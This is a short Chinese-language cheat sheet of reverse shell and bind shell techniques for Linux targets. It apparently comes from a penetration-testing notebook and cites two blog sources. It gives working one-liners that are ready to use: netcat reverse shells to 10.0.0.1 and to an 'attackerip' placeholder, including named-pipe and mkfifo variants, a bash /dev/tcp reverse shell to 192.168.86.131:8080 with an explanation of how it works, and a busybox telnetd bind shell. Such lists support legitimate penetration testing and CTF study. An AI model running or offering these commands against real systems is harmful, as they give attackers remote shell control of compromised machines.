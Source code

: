 ### NetCat
```
nc -e /bin/sh 10.0.0.1 1234　　#不同版本的nc不一定支持-e选项
```
不能使用-e选项时：
```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
```
安装的NC版本有问题时：
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html

---

### bash直接反弹
靶机
```
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
````
0是标准输入，1为标准输出，2是标准错误信息输出。
这个命令的意思是：bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。

https://www.smi1e.top/2018/09/21/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/


### telnetd启动服务
靶机：
```
busybox telnetd -b XXX.XXX.XXX.XXX -p 1234 -l /bin/ash
```
busybox 不一定要加，看telnetd是否直接可用（配好了环境变量之类吧）
telnetd 启动telnet服务
-b 是bind到靶机外网能访问的网卡ip
-p 监听端口
-l 指定客户telnet之后所用shell

攻击机：
```
telnet XXX.XXX.XXX.XXX 1234
```
